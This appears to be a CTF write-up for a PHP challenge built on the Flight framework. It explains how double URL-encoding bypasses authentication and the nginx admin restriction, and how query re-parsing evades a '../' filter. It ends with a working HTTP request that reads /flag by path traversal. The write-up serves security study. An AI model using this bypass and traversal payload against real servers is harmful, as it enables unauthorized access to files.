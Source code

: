 # EasyPHP

## How to Setup Environment

`cd docker && docker-compose up -d`

## Write Up

After reading index.php we can know that 

1. Admin can read a file
2. Every route need authentication except login in `$request->url`
3.  `../` in `$_GET`,`$_POST`,`$_COOKIE`,`$_SESSION`  is not allowed

Read nginx.conf we know that

1. URL contains admin only can be accessed by 127.0.0.1
2. `REQUEST_URI` come from `$uri`, `$uri` is not URL decoded. PHP-FPM receives `$uri` and will urldecode it.

### Bypass Authentication

Our goal is obviously to bypass authentication to read a file, but within the above message, we can't do that.

So we need to read the flight framework.

In routing code, we can find an interesting thing that it will pass a URL decoded URL to the route function.

`$url_decoded = urldecode( $request->url );`

So we can bypass authentication by visit url path like `/%2561%2564%256d%2569%256e%3flogin=123`


### Bypass `../` limitation

But the flag is in /, so we need to bypass the `../` limitation.

The file to read come from `"./".$request->query->data`

But `../` limitation is working in `$_GET`, they may have some little difference.

Read about how `$request->query` is built.

It is first assigned value by the following code:

```php
'query' => new Collection($_GET)

class Collection{
    public function __construct(array $data = array()) {
        $this->data = $data;
    }   
}
```

But in init function overwrite query by

```PHP


    public function init(){
        ...
        // Default url
        if (empty($this->url)) {
            $this->url = '/';
        }
        // Merge URL query parameters with $_GET
        else {
            $_GET += self::parseQuery($this->url);

            $this->query->setData($_GET);
        }
        ...
    }
    public static function parseQuery($url) {
        $params = array();

        $args = parse_url($url);
        if (isset($args['query'])) {
            parse_str($args['query'], $params);
        }

        return $params;
    }

```

So it's time to bypass the limitation of `../`

### Exploit

```
GET /%2561%2564%256d%2569%256e%3flogin=123%26data=..%252f..%252f..%252f..%252fflag HTTP/1.1
Host: 127.0.0.1:60080
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```

